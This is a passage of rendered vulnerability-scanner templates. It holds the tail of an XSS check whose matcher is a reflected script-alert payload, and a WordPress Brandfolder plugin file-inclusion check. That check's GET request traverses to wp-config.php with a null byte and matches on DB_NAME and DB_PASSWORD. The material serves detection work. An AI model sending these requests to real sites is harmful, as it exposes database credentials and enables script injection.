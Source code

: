 **Type - word**

- part - body
- words
  1. \</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Wordpress Brandfolder - Remote/Local File Inclusion

## Description

- WordPress Brandfolder allows remote attackers to access arbitrary files that reside on the local and remote server and disclose their content.
- severity - high
- tags - lfi,rfi,edb,wordpress,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/brandfolder/callback.php?wp_abspath=../../../wp-config.php%00

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress bbPress Plugin Directory Listing
